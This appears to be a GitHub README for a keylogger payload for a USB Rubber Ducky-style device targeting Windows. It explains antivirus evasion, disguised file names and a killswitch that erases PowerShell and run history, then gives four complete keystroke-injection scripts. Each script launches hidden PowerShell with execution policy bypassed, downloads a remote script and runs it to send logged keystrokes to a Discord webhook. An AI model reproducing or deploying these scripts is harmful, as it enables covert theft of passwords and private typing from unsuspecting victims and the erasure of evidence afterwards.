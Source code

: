 # Keylogger 
Download and execute a keylogger executable to run on the target machine that logs all keystrokes to a text file and sends the file to a Discord webhook every 30 seconds. Optional killswitch. Only compatible on Windows 64-bit targets.

Two versions of the executable have been created, ```usersystem32.exe``` and ```svcusersystem32.exe```.
Whilst developing the ```usersystem32.exe``` executable, Windows Defender eventually picked up on it and it got flagged as a PUP/virus. 

```svcusersystem32.exe``` is the successor which includes some random mathematical functions to try and throw off the detection. If you would like to test them out for yourself, you might need to disable **Reak-time protection** in your Windows settings (Windows Security > Virus & threat protection settings > Real-time protection). 

Don't forget to re-enable this setting once you have tested and played around with the keylogger yourself.

The ```service.ps1``` script will manage the download of the keylogger, sending of data to the webhook and kill switch settings. If a killswitch is set, the following actions are done:
1. Keylogger executable process is stopped
2. The folder created in the temp directory where the keylogger executable and text file that it writes to is deleted
3. Run history is cleared
4. Terminal output is cleared
5. Powershell history is cleared
6. Recycle bin is emptied
7. Powershell script itself self-deletes

If no killswitch is set, the script will run until the machine is powered off. All files are downloaded in the users ```temp``` directory anyway, so these will be cleared. However, powershell and run history will not be cleared and may be able to reveal instances of the keylogger existing. Including a killswitch will always be more discreet. 

The PowerShell script, keylogger executables and text files that are generated to log the keystrokes have been given non-suspicious names to try and avoid detection. 

---

### Usage 

#### Base Keylogger with killswitch
```
GUI r
DELAY 500 
STRING powershell 
DELAY 500 
ENTER 
DELAY 2000 
STRING powershell -w h -NoP -Ep Bypass Invoke-WebRequest "https://github.com/tpazz/Cute-Little-Duckies/raw/main/keylogger/service.ps1" -OutFile "service.ps1"; .\service.ps1 -webhookUrl "[YOUR DISCORD WEBHOOK]" -killSwitch "2024-06-27T17:28:00" -exe "usersystem32"
DELAY 1000
ENTER
```
#### Advanced Keylogger with killswitch
```
GUI r
DELAY 500 
STRING powershell 
DELAY 500 
ENTER 
DELAY 2000 
STRING powershell -w h -NoP -Ep Bypass Invoke-WebRequest "https://github.com/tpazz/Cute-Little-Duckies/raw/main/keylogger/service.ps1" -OutFile "service.ps1"; .\service.ps1 -webhookUrl "[YOUR DISCORD WEBHOOK]" -killSwitch "2024-06-27T17:28:00" -exe "svcusersystem32"
DELAY 1000
ENTER
```
#### Base Keylogger without killswitch
```
GUI r
DELAY 500 
STRING powershell 
DELAY 500 
ENTER 
DELAY 2000 
STRING powershell -w h -NoP -Ep Bypass Invoke-WebRequest "https://github.com/tpazz/Cute-Little-Duckies/raw/main/keylogger/service.ps1" -OutFile "service.ps1"; .\service.ps1 -webhookUrl "[YOUR DISCORD WEBHOOK]" -exe "usersystem32"
DELAY 1000
ENTER
```
#### Advanced Keylogger without killswitch
```
GUI r
DELAY 500 
STRING powershell 
DELAY 500 
ENTER 
DELAY 2000 
STRING powershell -w h -NoP -Ep Bypass Invoke-WebRequest "https://github.com/tpazz/Cute-Little-Duckies/raw/main/keylogger/service.ps1" -OutFile "service.ps1"; .\service.ps1 -webhookUrl "[YOUR DISCORD WEBHOOK]" -exe "svcusersystem32"
DELAY 1000
ENTER
```

## DISCLAIMER
ALL scripts, programs and files in this repository are intended for educational purposes only. The author is not responsible for any damages, unauthorized access, or illegal activities that may arise from this content.
